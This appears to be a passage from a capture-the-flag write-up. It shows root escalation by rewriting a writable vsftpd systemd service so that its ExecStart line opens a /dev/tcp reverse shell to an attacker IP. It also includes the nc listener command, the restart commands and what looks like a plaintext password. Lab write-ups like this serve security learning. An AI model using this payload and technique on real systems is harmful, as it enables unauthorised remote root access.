 the file is owned by root but we can read and write

```
lrwxrwxrwx 1 root root 34 Jun 18  2021 /etc/systemd/system/multi-user.target.wants/vsftpd.service -> /lib/systemd/system/vsftpd.service
```

turnign the service malicious with a reverse shell

original service


```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

new service

```
nano 
```

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'sh -i >& /dev/tcp/10.6.24.127/1341 0>&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

start a listener on attacker machine

```
nc -lvnp 1341
```

run the service with permissions

```
systemctl daemon-reload
Th3dRaCULa1sR3aL
sudo /usr/sbin/service vsftpd restart
```
